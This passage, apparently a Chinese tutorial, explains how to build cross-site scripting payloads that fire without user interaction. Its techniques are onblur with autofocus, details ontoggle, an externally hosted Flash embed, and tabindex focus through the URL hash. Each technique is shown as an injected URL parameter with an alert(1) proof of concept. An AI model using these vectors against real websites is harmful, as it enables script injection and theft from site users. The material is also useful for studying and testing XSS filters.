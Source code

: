 3. onblur与autofocus
```txt
onblur是标签失去焦点时引发的事件,那么你可能就会问了
这和我无需交互的payload有什么关系呢
很简单,我们来看看怎么样让标签'自动'失去焦点
(1)在稍早版本的chrome中
我们构造如下payload
x=1"><input%20onblur=alert(1)%20autofocus><input%20autofocus><input%20autofocus>
有好几个标签来'竞争' autofocus的焦点,那么 只要我们的第一个带有onblur事件的input,在获得焦点后,又因为竞争而
失去焦点的话,就可以触发这个payload了
(2)在最新版本中
由于上一个payload已经无法正常工作了,但是我们仍然能够通过
x=1"><input%20onblur=alert(1)%20autofocus>
来构造一个需要较少交互的xss向量
用户只要随意点击窗口里的任意一个地方就会触发我们的payload
但是非常多其他标签似乎无法触发onfocus,更不要说autofocus了
```

4. <details>标签的ontoggle事件
```txt
如果大部分常见事件都被过滤掉了,我们仍然有办法来构造一个无需交互的xss向量
这就是<details>标签的ontoggle属性,它会在自身的open属性不为空时触发
构造如下payload
x=1"><details%20open%20ontoggle="alert(1)">
在chrome最新版本中有效
```

5. flash-xss的自动触发
```txt
没测试！！！
在之前的chrome auditor bypass中,它似乎非常鸡肋
但是在存储型xss和其他浏览器的场景下,用它可以构造非常有效的攻击向量
payload构造如下
x=1"><embed+type="application/x-shockwaveflash"+
allowscriptaccess=always+src=https://www.math1as.com/3.">
```

6. 任意标签的自动触发
```txt
那么如何实现任意标签的自动触发这一目标呢
这里只简单的讲一个技巧
可以用任意脚本构造出无需交互的payload
如我们所知,有很大一部分标签是"不响应"onfocus事件的
你用鼠标移动上去,他没有任何的反应
但事实上,真的如此么?
我们试着给它添加一个tabindex属性
然后为它设置id=1
最后用location.hash来定位到id=1的锚点,就可以让他获得焦点
这里我们用一个不存在于标准里的标签<hero>来测试
构造如下payload
x=1"><hero%20id="1"%20tabindex="0"%20onfocus=alert(1)>#1
对应的标签是
<hero id="1" tabindex="0" onfocus=alert(1)>
于是,我们就获得了一个构造任意标签的自动触发payload的方法。
```
